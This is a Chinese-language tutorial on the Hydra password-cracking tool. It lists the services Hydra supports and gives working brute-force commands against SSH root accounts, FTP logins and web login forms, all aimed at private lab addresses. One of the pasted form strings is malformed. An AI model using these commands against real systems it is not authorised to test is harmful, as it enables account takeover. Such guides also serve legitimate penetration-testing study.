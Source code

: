
> 支持的服务和协议包括: asterisk cisco cisco-enable cvs firebird ftp ftps http[s]-{head|get} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres rdp redis rexec rlogin rsh s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

```bash
hydra -l user -P passlist.txt ftp://192.168.0.1
```

### Hydra用法实例:

**破解ssh账号:**

破解ssh账号有两种方式，一种 是指定账号破解，另外一种是指定用户列表破解，命令如下：

```bash
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh    

hydra -l root -P pwd.dic -t 1 -vV -e ns -o save.log 192.168.44.139 ssh //对root账户进行破解，将结果保存在save.log中    
```

** 破解FTP账号:**

破解指定用户名密码:

```bash
    hydra ip ftp -l 用户名 -P 密码字典 -t 线程（默认16）-vV        
    hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV    
```

**批量破解FTP账号和密码：**

```bash
    hydra -L list_user -P list_password 192.168.10.2 ftp -V  
```

**GET方式提交，破解WEB登录：**

```bash
    hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form “/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password”  

    hydra -L list_user -P list_password 192.168.10.4 http-post-form "member.php？mod=login&loginsubmit=yes&infloat=yes&lssubmit=yes&inajax=1:fastloginfield=username&username=^USER^&password=^PASS^&password=^PASS^&quickforward=yes&handlekey=ls:Login failed" -V    
```

	以上表示对192.168.10.4进行post提交破解，定义了登录的url，以及登录验证和错误登录标记。

```bash
member.php?mod=logging&action=loginsubmit=yes&infloat=yes&lssubmit=yes&inajax=1fastloginfield=username&username=^USER^&password=^PASS^&quickforward=yes&handlekey=lsLogin failed    
```

对admin密码进行破解:

```bash
    hydra -t 3 -l admin -P pass.txt -o out.txt -f 192.168.0.11 http-post-form"login.php:id=^USER^&password=^PASS^:<title>wrong username or password</title>"    
```
